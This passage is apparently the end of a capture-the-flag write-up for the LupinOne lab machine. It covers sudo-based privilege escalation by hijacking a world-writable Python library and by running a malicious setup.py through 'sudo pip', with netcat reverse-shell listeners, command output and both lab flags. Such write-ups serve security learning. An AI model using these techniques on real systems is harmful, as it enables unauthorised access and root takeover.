    ,,.,    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@/,***,*,@%%%@@&@@@%%###@ ,,.,
    .,. @@&&&@@,,/@@@@@@@@@@@@@@@@@@@@@@@@#,,,,,,,,,*,,@%%%@&&@@%%%%%##&* ,...
.,,, @@&@@&@&@@%,*,*,*,*,***,*,*,***,*,*,*,*,*,*,**,&@%%&@@@&@%%%%%%%%@/.,    .,
  /@@&&&&&&&&&&@@*,,,,,,,,,,,,,,,,,,,,,,*,,,**,%@&%%%%@&&&@%%%%%%%%%@(    ,..,
 @&@&@&@&@&@&@&&@@@@@(,*,*,,**,*,*,,,*#&@@&%%%%%%%%&@@@@@%%%%%%%%@&..,    .,.,
@@@&&&&&&&&&&&&&&&&&@@@&&&@@@@&&@@&&@&&&%&%%%%%%%@&&&@&%%%%%%&@,..    ...,    ..
 @&&&@&@&@&@&@&@&@&@&@&@&@&@&&@@@&&&&&&&%&%%%%&@&&@@%%%#&@%..,    .,.,    .,.,
  @@@@&&&&&&&&&&&&&&&&&&&&&&@&&&&&&&&&&&%%&%@&@&@&@@%..   ....    ....    ,..,
.,,, *@@&&&@&@&@&@&@&@&&&&&&&&&&&&&&&&&%&&@@&&@....    ,.,    .,,,    ,,..    .,
    ,,,,    .,%@@@@@@@@@@@@@@@@%,  ...,@@&&@(,,    ,,,.   .,,,    ,,.,    .,,.
    .,.,    .,,,    .,,.   ..,.    ,*@@&&@ ,,,,    ,.,.   .,.,    .,.,    .,.,
...,    ....    ....    ,..    ,..@@@&@#,..    ....    ,..    ...,    ....    ..
    ....    ....    ...    ....@.,%&@..    ....    ...    ....    ....    ....
    ...,    ....    ....   .*/,...&.,,,    ....    ....   .,..    ...,    ...,
.,.,    .,.,    ,,.,    .,../*,,&,,    ,.,,    ,.,,    ..,    .,.,    .,.,    ,,

3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑↔️  Horizontal Privilege Escalation

> Let's display information from the `sudoers` configuration for the current user:

```bash

icex64@LupinOne:~$ sudo -l
Matching Defaults entries for icex64 on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icex64 may run the following commands on LupinOne:
    (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
icex64@LupinOne:~$

```

> From the output, we see that user `icex64` can execute the command `/usr/bin/python3.9 /home/arsene/heist.py` with the privileges of user `arsene` without having to enter a password via `sudo`.

> Let's display the contents of the `/home/arsene/heist.py` script:

```bash

icex64@LupinOne:~$ cat /home/arsene/heist.py
import webbrowser

print ("Its not yet ready to get in action")

webbrowser.open("https://empirecybersecurity.co.mz")
icex64@LupinOne:~$

```

> We see that the `Python script` imports the `webbrowser` library. Let's check the configured `Access Rights` for this library:

```bash

icex64@LupinOne:~$ ls -lah /usr/lib/python3.9/webbrowser.py
-rwxrwxrwx 1 root root 239 Nov 25 14:50 /usr/lib/python3.9/webbrowser.py
icex64@LupinOne:~$

```

> This is our potential vector for `Horizontal Privileges Escalation` to the `arsene` user. The `rwx` permissions set for the `other` user category allow us to
> edit this file - meaning `we can full rewrite it with our own code`.

> Let's write a simple `Python script` for reverse shell forwarding and replace the contents of the `webbrowser.py` file with it:

<p align="center">
 
</p>

> In the second terminal, launch the `netcat` listener and execute the script with the `arsene` user's privileges:

```bash

icex64@LupinOne:~$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py

```
```bash

❯ nc -lvnp 4141

Listening on 0.0.0.0 4141
Connection received on 192.168.50.235 37098
arsene@LupinOne:/home/icex64$ id
id
uid=1000(arsene) gid=1000(arsene) groups=1000(arsene),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
arsene@LupinOne:/home/icex64$

```

> We gain access under the user `arsene`.

---
## 🔑⬆️  Vertical Privilege Escalation

> Once again, we display information from the `sudoers` configuration, only this time for the user `arsene`:

```bash

arsene@LupinOne:/home/icex64$ sudo -l
sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
arsene@LupinOne:/home/icex64$

```

> We see that the user `arsene` can execute the command `/usr/bin/pip` with `root` privileges without having to enter a password via `sudo`.

> [!IMPORTANT]
`pip` is a package manager for `Python`. It allows you to install various Python libraries and manage dependencies. When installing a package, `pip` executes the `setup.py` file,
which is located in the directory of the package being installed. `setup.py` is a configuration file. It describes the entire installation process. In this case, with `Privilege Escalation`, we
create our own `setup.py` executable with our own malicious code and run `pip install` as `root`.

> Let's use the same python script and create a `setup.py` file in the `/tmp` directory:

<p align="center">
 
</p>

> Launch the `netcat` listener on another terminal and execute the command `sudo /usr/bin/pip install /tmp`:

```bash

arsene@LupinOne:/tmp$ sudo /usr/bin/pip install /tmp
Processing /tmp

```
```bash

nc -lvnp 4242

Listening on 0.0.0.0 4242
Connection received on 192.168.50.235 35636
root@LupinOne:/tmp/pip-req-build-gqa3di2x# id
id
uid=0(root) gid=0(root) groups=0(root)
root@LupinOne:/tmp/pip-req-build-gqa3di2x#

```

> I get the `root flag` from the root's home directory - `/root`

```bash

root@LupinOne:/tmp/pip-req-build-gqa3di2x# cd /root
cd /root
root@LupinOne:~# ls -lah
ls -lah
total 36K
drwx------  4 root root 4.0K Oct  7  2021 .
drwxr-xr-x 18 root root 4.0K Oct  4  2021 ..
-rw-------  1 root root  234 Oct  7  2021 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4.0K Oct  4  2021 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-------  1 root root   12 Oct  4  2021 .python_history
-rw-r--r--  1 root root 3.3K Oct  4  2021 root.txt
drwx------  2 root root 4.0K Oct  4  2021 .ssh
root@LupinOne:~# cat root.txt
cat root.txt
*,,,,,,,,,,,,,,,,,,,,,,,,,,,,,(((((((((((((((((((((,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
,                       .&&&&&&&&&(            /&&&&&&&&&
,                    &&&&&&*                          @&&&&&&
,                *&&&&&                                   &&&&&&
,              &&&&&                                         &&&&&.
,            &&&&                   ./#%@@&#,                   &&&&*
,          &%&&          &&&&&&&&&&&**,**/&&(&&&&&&&&             &&&&
,        &@(&        &&&&&&&&&&&&&&&.....,&&*&&&&&&&&&&             &&&&
,      .& &          &&&&&&&&&&&&&&&      &&.&&&&&&&&&&               &%&
,     @& &           &&&&&&&&&&&&&&&      && &&&&&&&&&&                @&&&
,    &%((            &&&&&&&&&&&&&&&      && &&&&&&&&&&                 #&&&
,   &#/*             &&&&&&&&&&&&&&&      && #&&&&&&&&&(                 (&&&
,  %@ &              &&&&&&&&&&&&&&&      && ,&&&&&&&&&&                  /*&/
,  & &               &&&&&&&&&&&&&&&      &&* &&&&&&&&&&                   & &
, & &                &&&&&&&&&&&&&&&,     &&& &&&&&&&&&&(                   &,@
,.& #                #&&&&&&&&&&&&&&(     &&&.&&&&&&&&&&&                   & &
*& &                 ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&             &(&
*& &                 ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&            & &
*& *              &&&&&&&&&&&&&&&&&&&@.                 &&&&&&&&             @ &
*&              &&&&&&&&&&&&&&&&&&@    &&&&&/          &&&&&&                & &
*% .           &&&&&&&&&&&@&&&&&&&   &  &&(  #&&&&   &&&&.                   % &
*& *            &&&&&&&&&&   /*      @%&%&&&&&&&&    &&&&,                   @ &
*& &               &&&&&&&           & &&&&&&&&&&     @&&&                   & &
*& &                    &&&&&        /   /&&&&         &&&                   & @
*/(,                      &&                            &                   / &.
* & &                     &&&       #             &&&&&&      @             & &.
* .% &                    &&&%&     &    @&&&&&&&&&.   %@&&*               ( @,
/  & %                   .&&&&  &@ @                 &/                    @ &
*   & @                  &&&&&&    &&.               ,                    & &
*    & &               &&&&&&&&&& &    &&&(          &                   & &
,     & %           &&&&&&&&&&&&&&&(       .&&&&&&&  &                  & &
,      & .. &&&&&&&&&&&&&&&&&&&&&&&&&&&&*          &  &                & &
,       #& & &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&        &.             %  &
,         &  , &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&.     &&&&          @ &*
,           & ,, &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&.  /&&&&&&&&    & &@
,             &  & #&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&@ &. &&
,               && /# /&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&# &&&# &# #&
,                  &&  &( .&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&  &&
/                     ,&&(  &&%   *&&&&&&&&&&%   .&&&  /&&,
,                           &&&&&/...         .#&&&&#

3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}
See you on the next heist.
root@LupinOne:~#

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}</code>
    </td>
  </tr>
</table>

</div>

> **Machine is pwned**

---
## 🧠 Conclusion

> [!TIP]
During this attack, the target system `Empire: LupinOne` was fully compromised.
`Initial scanning and reconnaissance` revealed the presence of a password protected `private ssh key` that was insecurely stored at the URL `http://192.168.50.235/~secret/.mysecret.txt`.
The `passphrase` was successfully cracked using the `john` utility, which allowed to gain `Initial Access` to the system as user `icex64` via an `External Remote Service` (`ssh`).
In the next phase, a method of `Horizontal Privilege Escalation` was applied by compromising user `arsene` through a `misconfiguration in the sudoers file`.
Insecure permissions on the `webbrowser.py library` allowed overwriting its contents with `malicious reverse shell code`, resulting in shell access under the `arsene` account.
Further `Internal Enumeration` revealed another `misconfiguration in the sudoers file`.
The ability to execute the `pip package manager` with `root` privileges led to `full control over the system`.
